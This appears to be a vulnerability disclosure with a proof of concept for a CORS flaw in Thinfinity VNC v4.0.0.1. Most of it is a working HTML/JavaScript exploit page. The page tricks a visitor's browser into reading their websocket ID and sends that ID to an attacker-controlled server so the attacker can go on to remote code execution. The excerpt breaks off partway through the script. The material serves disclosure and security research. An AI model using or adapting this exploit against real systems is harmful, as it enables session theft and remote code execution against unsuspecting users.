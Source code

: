 ## Description

Thinfinity VNC v4.0.0.1 contains a Cross-Origin
Resource Sharing (CORS) vulnerability which can
allow an unprivileged remote attacker, if they can
trick a user into browse malicious site, to obtain
an `ID` that can be used to send websocket
requests and achieve RCE.

## Proof of Concept

1. Create a malicious site with the following
   content and send it to the victim.

    ```html
    <!DOCTYPE html>
    <html>
    <body>
    <center>
    <h2>CORS Thinfinity POC Exploit</h2>
    <h3>Extract ID</h3>

    <div id="demo">
    <button type="button" onclick="cors()">Exploit</button>
    </div>

    <script>
    function cors() {

    var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {

            response = JSON.parse(this.responseText)
            id_str = response['id']

            id_str = id_str.slice(1, id_str.length - 1)

            alert("Exfiltrated ID: " + id_str)
            alert("Do you want to send the exploit?")

            const flask_http = new XMLHttpRequest();

            // Server to exfiltrate the websocket id

            // CHANGE THIS
            var exf_server = "127.0.0.1:5000"
            const url = "http://" + exf_server + "/cors?id=" + id_str


            // Send ID to flask application
            flask_http.open("GET", url)
            flask_http.send()

            flask_http.onreadystatechange = function() {
                    alert('Done!!!')
            }
